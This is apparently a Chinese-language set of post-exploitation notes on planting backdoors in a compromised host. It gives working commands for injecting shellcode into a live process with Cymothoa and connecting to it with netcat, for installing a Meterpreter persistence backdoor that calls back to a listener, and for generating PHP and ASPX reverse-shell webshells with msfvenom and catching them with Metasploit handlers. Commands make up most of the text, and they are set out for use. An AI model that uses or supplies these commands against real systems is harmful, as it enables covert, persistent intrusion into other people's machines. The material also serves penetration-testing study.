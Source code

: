 
###### 后渗透攻击：后门
提取完成之后，就需要留后门了  

1.操作系统后门
```bash
##### 1.Cymothoa后门
可以将ShellCode注入到现有进程的后门工具
该后门能与被注入进程共存，且如果不检查内存是发现不了的
该后门注入系统的某一进程，返回的是该进程相应的权限(并不需要root)， 但是关闭进程或重启，后门就会停止运行

ps -aux  # 查看程序的pid， Win下是 tasklist
# -p指定目标进程的PID，-y指定payload服务端口，-s指定ShellCode编号(cymothoa -S 查看) 
cymothoa -p 862 -s 1 -y 5555
# 连接后门
nc -nvv 192.168.0.112 5555




##### 2.Persistence后门
使用安装自启动方式的持续型后门，可以用它创建注册表和文件
run persistence -h  # 查看命令选项
# 创建持久型后门
run persistence -A -S -U -i 60 -p 4321 -r 162.168.0.112 
# -A自动启动payload，-S系统启动时自动加载，-U用户登录时自动启动， -X开机时自动加载，-i回连时间间隔，-P监听端口号， -r 目标机器地址

sessions  # 发现会话已成功获取
```

2.Web后门(WebShell)
```bash
# 中国菜刀，AntSword， Cknife， 冰蝎，Weevely(kali使用最多，但是只支持php)，msf也有自带的后门

##### 1. Meterpreter 后门
msf中有一个叫 php meterpreter 的payload，里哟你他可以创建具有Meterpreter功能的php webshell
# 使用msfvenom创建一个webshell
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.0.106 LPORT=1234 -f raw > p.php
# 上传webshell到目标机器
# 本机运行 msf multi-handler 开始监听
use exploit/multi/handlers
set payload php/meterpreter/reverse_tcp
...
run
# 访问webshell页面
# 获得反弹的 Metasploit Shell



##### 2. Aspx Meterpreter 后门
msf下的 shell_reverse_tcp 的payload，可以创建多个版本的具有meterpreter功能的Shellcode
这里以aspx为例, 步骤和上面的那个大致相同
show payloads
use windows/shell_reverse_tcp
set ...
save

generate -h  # 查看帮助
generate -t aspx  # 生成aspx版本的ShellCode
# 保存内容到x.aspx，上传到服务器
# 本地设置监听
use exploit/multi/handlers
set payload windows/meterpreter/reverse_tcp
...
run
```